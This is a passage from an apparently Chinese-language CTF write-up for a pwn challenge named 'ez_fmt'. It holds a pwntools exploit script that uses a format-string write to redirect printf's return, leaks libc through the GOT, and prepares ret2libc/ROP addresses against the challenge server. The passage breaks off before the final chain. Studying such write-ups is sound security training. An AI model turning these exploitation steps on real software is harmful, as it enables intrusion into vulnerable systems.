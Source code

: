 flag 试了好几次，最后直接找的一个在线加密器解决的

### ez\_fmt

> Easy format string. IP: 47.104.24.40 Port: 1337
> 
> [附件下载](https://pan.baidu.com/s/1YxAkJgxtVQf2Dz9fBdWuXw) 提取码（GAME）[备用下载](https://share.weiyun.com/x4v52Bnd)

格式化字符串 + ret2libc + ROP

格式化字符串偏移是 6

```bash
from pwn import *
import sys
from LibcSearcher import *

context(log_level='debug', arch='amd64', os='linux')

elf_file = './ez_fmt'

elf = ELF(elf_file)

def start():
    if len(sys.argv) == 1:
        p = process(elf_file)
    elif len(sys.argv) == 2:
        if sys.argv[1] == 'debug':
            p = process(elf_file)
            gdb.attach(p)
        if sys.argv[1] == 'remote':
            p = remote('47.104.24.40', '1337')
    return p

p = start()

p.recvuntil(b'There is a gift for you ')
addr_stack_buf = int(p.recvuntil(b'\n', drop=True).decode(), 16)
print(hex(addr_stack_buf))

addr_printf_ret = addr_stack_buf - 0x08

# leak the libc base
# edit the ret of printf
addr_read_got = elf.got['read']
payload = b'A' * 5 + b"%9$hhn" + b'%8$s'
payload = payload.ljust(0x10, b'a')
payload += p64(addr_read_got)
payload += p64(addr_printf_ret)
assert len(payload) <= 0x30
payload = payload.ljust(0x30, b'a')
p.send(payload)
p.recvuntil(b'AAAAA')
addr_read_libc = u64((p.recv(6).ljust(8, b'\x00')))
print(hex(addr_read_libc))

libc = LibcSearcher('read', addr_read_libc)
addr_libc_base = addr_read_libc - libc.dump('read')
addr_system = addr_libc_base + libc.dump('system')
addr_pop_rdi = addr_libc_base + 0x23b6a
addr_ret = addr_libc_base + 0x22679


# offset = [0xe3afe, 0xe3b01, 0xe3b04]
```
